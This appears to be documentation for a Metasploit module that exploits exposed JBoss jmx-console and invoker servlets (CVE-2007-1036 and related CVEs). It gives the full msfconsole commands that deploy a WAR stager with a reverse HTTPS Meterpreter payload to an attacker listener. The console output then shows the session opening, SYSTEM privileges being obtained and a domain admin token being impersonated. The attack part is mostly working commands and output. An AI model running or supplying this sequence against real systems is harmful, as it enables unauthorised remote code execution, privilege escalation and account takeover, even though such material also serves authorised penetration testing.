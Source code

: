 # CVE-2007-1036

Apache Tomcat / JBoss EJBInvokerServlet / JMXInvokerServlet Multiple Vulnerabilities

- CVE-2007-1036
- CVE-2012-0874
- CVE-2013-4810

This module can be used to execute a payload on JBoss servers that have an exposed "jmx-console" application. The payload is put on the server by using the jboss.system:MainDeployer functionality. To accomplish this, a temporary HTTP server is created to serve a WAR archive containing our payload. This method will only work if the target server allows outbound connections to us.

## Usage

```bash
msf5 use exploit/multi/http/jboss_invoke_deploy
```

## Examples

```bash
msf5 use exploit/multi/http/jboss_invoke_deploy
msf5 exploit(multi/http/jboss_invoke_deploy) > SET RHOSTS 10.10.10.10
msf5 exploit(multi/http/jboss_invoke_deploy) > SET RHPORT 8180
msf5 exploit(multi/http/jboss_invoke_deploy) > SET PAYLOAD windows/meterpreter/reverse_https
msf5 exploit(multi/http/jboss_invoke_deploy) > SET LHOST 10.10.10.1
msf5 exploit(multi/http/jboss_invoke_deploy) > SET LPORT 8443
msf5 exploit(multi/http/jboss_invoke_deploy) > run

[*] Started HTTPS reverse handler on https://10.10.10.1:8443
[*] Using manually select target: "Windows Universal"
[*] Deploying stager
[*] Calling stager: /EnyMtdpsHwfYUU/idIzmUiHUjmzdC.jsp
[*] Uploading payload through stager
[*] Calling payload: /BiAbpcPbeQku/MAhczELmEptIOJe.jsp
[*] Removing payload through stager
[*] Removing stager
[*] https://10.10.10.1:8443 handling request from 10.10.10.10; (UUID: 4goaaaae) Staging x86 payload (177241 bytes) ...
[*] Meterpreter session 1 opened (10.10.10.1:8443 -> 10.10.10.10:50537) at 1970-01-01 00:01:00 +0200

meterpreter > getsystem
...got system (via technique 1).
meterpreter > load incognito
Loading extension incognito...Success.
meterpreter > list_tokens -u

Delegation Tokens Available
========================================
offsec.nl\adm-JohnDo

meterpreter > impersonate_token offsec.nl\adm-JohnDo
[+] Delegation token available
[+] Successfully impersonated user offsec.nl\adm-JohnDo
meterpreter > getuid
Server username: offsec.nl\adm-JohnDo
```

## References

- [Nessus.org](http://www.nessus.org/u?74979c27)
- [Tenable.com - ID 70414](https://www.tenable.com/plugins/nessus/70414)
